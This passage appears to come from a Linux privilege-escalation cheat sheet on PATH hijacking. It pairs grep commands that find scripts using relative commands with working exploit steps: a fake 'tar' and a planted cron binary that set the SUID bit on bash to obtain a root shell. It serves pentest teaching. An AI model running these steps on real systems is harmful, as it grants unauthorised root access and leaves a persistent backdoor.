 ### Vulnerable Script Detection
```bash
# Find scripts using relative commands
grep -r "^[^/]" /etc/cron.d/ 2>/dev/null
grep -r "^[^/]" /opt/scripts/ 2>/dev/null

# Check sudo scripts for relative paths
sudo -l | grep -E "\(/.*\.sh\)" | while read script; do
    if [ -r "$script" ]; then
        echo "=== $script ==="
        grep -E "^[a-zA-Z]" "$script" | head -5
    fi
done
```

## 🚀 Exploitation Examples

### Basic PATH Hijacking
```bash
# 1. Identify vulnerable script
sudo -l
# Output: (root) NOPASSWD: /usr/local/bin/backup.sh

# 2. Analyze script
cat /usr/local/bin/backup.sh
# Contains: tar czf backup.tar.gz *

# 3. Create malicious tar
echo '#!/bin/bash' > /tmp/tar
echo 'chmod u+s /bin/bash' >> /tmp/tar
chmod +x /tmp/tar

# 4. Modify PATH
export PATH=/tmp:$PATH

# 5. Execute vulnerable script
sudo /usr/local/bin/backup.sh

# 6. Verify SUID bash
ls -la /bin/bash
/bin/bash -p  # Gain root shell
```

### Cronjob PATH Exploitation
```bash
# If cron runs script with relative commands
# Create malicious binary in writable PATH directory
echo '#!/bin/bash' > /usr/local/bin/vulnerable_cmd
echo 'cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash' >> /usr/local/bin/vulnerable_cmd
chmod +x /usr/local/bin/vulnerable_cmd

# Wait for cron execution
# Then execute SUID bash
/tmp/rootbash -p
```
